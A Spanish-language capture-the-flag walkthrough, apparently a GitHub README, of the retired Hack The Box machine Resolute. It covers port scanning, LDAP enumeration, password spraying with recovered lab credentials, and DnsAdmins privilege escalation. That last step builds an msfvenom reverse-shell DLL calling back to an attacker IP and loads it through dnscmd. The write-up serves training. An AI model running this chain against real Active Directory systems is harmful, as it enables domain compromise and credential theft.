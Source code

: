 # Resolute-HTB

Desarrollo de la VM MONTEVERDE de HACK THE BOX (HTB)

## 1. Configuración de la VM

- La VM se encuentra en estado de retirada de HTB
- Se debe activar la VM para poder usarla, se requiere una suscripción PREMIUM.

## 2. Escaneo de Puertos

```
# Nmap 7.92 scan initiated Sat Apr  2 10:32:21 2022 as: nmap -n -P0 --top-ports 5000 -sS -sC -vv -T5 -oA full 10.129.136.132
Warning: 10.129.136.132 giving up on port because retransmission cap hit (2).
Increasing send delay for 10.129.136.132 from 0 to 5 due to 733 out of 1831 dropped probes since last increase.
Nmap scan report for 10.129.136.132
Host is up, received user-set (0.35s latency).
Scanned at 2022-04-02 10:32:22 EDT for 172s
Not shown: 4954 closed tcp ports (reset)
PORT      STATE    SERVICE          REASON
53/tcp    open     domain           syn-ack ttl 127
88/tcp    open     kerberos-sec     syn-ack ttl 127
135/tcp   open     msrpc            syn-ack ttl 127
139/tcp   open     netbios-ssn      syn-ack ttl 127
389/tcp   open     ldap             syn-ack ttl 127
445/tcp   open     microsoft-ds     syn-ack ttl 127
464/tcp   open     kpasswd5         syn-ack ttl 127
593/tcp   open     http-rpc-epmap   syn-ack ttl 127
636/tcp   open     ldapssl          syn-ack ttl 127
3268/tcp  open     globalcatLDAP    syn-ack ttl 127
3269/tcp  open     globalcatLDAPssl syn-ack ttl 127
5985/tcp  open     wsman            syn-ack ttl 127
49927/tcp open     unknown          syn-ack ttl 127

Host script results:
|_clock-skew: mean: 2h27m01s, deviation: 4h02m30s, median: 7m00s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Resolute
|   NetBIOS computer name: RESOLUTE\x00
|   Domain name: megabank.local
|   Forest name: megabank.local
|   FQDN: Resolute.megabank.local
|_  System time: 2022-04-02T07:41:30-07:00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 63774/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 20975/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 60972/udp): CLEAN (Failed to receive data)
|   Check 4 (port 33457/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2022-04-02T14:41:33
|_  start_date: 2022-04-02T14:27:05

```

<img src="https://github.com/El-Palomo/Resolute-HTB/blob/main/Resolute1.jpg" width=80% />


## 3. Enumeración

- Podemos enumerar utilizando ENUM4LINUX o AUTORECON.

```
┌──(root㉿kali)-[~/HT/RESOLUTE]
└─# enum4linux -a -M -l -d 10.129.136.132 > enum4linux.txt    
```

- Identificamos usuarios del repositorio LDAP y encontramos una contraseña: Welcome123!

<img src="https://github.com/El-Palomo/Resolute-HTB/blob/main/Resolute2.jpg" width=80% />

- También podemos enumerar los usuarios con LDAPSEARCH:

```
ldapsearch -x -b "dc=megabank,dc=local" -h 10.129.136.132 
```

<img src="https://github.com/El-Palomo/Resolute-HTB/blob/main/Resolute3.jpg" width=80% />

## 4. Explotación

## 4.1. Cracking ONLINE

- Tenemos usuarios y una contraseña. Identificamos melanie:Welcome123!

```
┌──(root㉿kali)-[~/HT/RESOLUTE]
└─# crackmapexec smb 10.129.136.132 -u users.txt -p 'Welcome123!' --shares --pass-pol
```

<img src="https://github.com/El-Palomo/Resolute-HTB/blob/main/Resolute4.jpg" width=80% />

- Nos conectamos a través de WINRM

<img src="https://github.com/El-Palomo/Resolute-HTB/blob/main/Resolute5.jpg" width=80% />

- En la carpeta USERS, encontramos la carpeta RYAN. Es una pista, el usuario RYAN parece que juega algun rol en este CTF.

<img src="https://github.com/El-Palomo/Resolute-HTB/blob/main/Resolute6.jpg" width=80% />


## 4.2. Enumerando carpetas

- Otra técnica es buscar carpetas que contengan información sensible.
- En el directorio C:\, hay una carpeta oculta con información sensible. Password: ryan Serv3r4Admin4cc123!


<img src="https://github.com/El-Palomo/Resolute-HTB/blob/main/Resolute7.jpg" width=80% />

<img src="https://github.com/El-Palomo/Resolute-HTB/blob/main/Resolute8.jpg" width=80% />


## 4.3. Cracking ONLINE (2)

- Con la contraseña encontrada, probamos un nuevo acceso. Nuevo acceso: ryan:Serv3r4Admin4cc123!

<img src="https://github.com/El-Palomo/Resolute-HTB/blob/main/Resolute9.jpg" width=80% />

- Nos conectamos a través de WINRM:

```
┌──(root㉿kali)-[~/HT/RESOLUTE]
└─# evil-winrm -i 10.129.136.132 -u ryan -p 'Serv3r4Admin4cc123!'   
```

<img src="https://github.com/El-Palomo/Resolute-HTB/blob/main/Resolute10.jpg" width=80% />


## 5. Elevando Privilegios

### 5.1. ABUSE DNSADMIN

- En la imagen superior vemos que el usuario RYAN pertenece al grupo DNSADMIN. Eso también es una pista.
- Existe un procedimiento ya conocido para expotar estos permisos:

* Construir una DLL maliciosa
* Inyectar la DLL maliciosa de manera remota, es decir, a través de SMB. Se puede realizar de manera local pero algún AV podría detectarlo.
* Reiniciar el servicio y se obtiene shell reversa.

https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise
https://medium.com/techzap/dns-admin-privesc-in-active-directory-ad-windows-ecc7ed5a21a2
http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html

- Creamos el DLL malicioso
```
┌──(root㉿kali)-[~/HT/RESOLUTE]
└─# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.15 LPORT=8080 -f dll > evil.dll
```

- Levantamos un servidor SMB para compartir la carpeta
```
┌──(root㉿kali)-[~/HT/RESOLUTE]
└─# /usr/bin/impacket-smbserver share $(pwd)  
```

- En la víctima cargamos la librería DNS, detenemos el servicio y lo iniciamos de nuevo

```
*Evil-WinRM* PS C:\Users\ryan\Documents> dnscmd.exe /config /serverlevelplugindll \\10.10.16.15\share\evil.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.

*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe stop dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe start dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 3780
        FLAGS              :
```


- En KALI, levantamos el HANDLER y esperamos la conexión reversa:


<img src="https://github.com/El-Palomo/Resolute-HTB/blob/main/Resolute11.jpg" width=80% />





























































































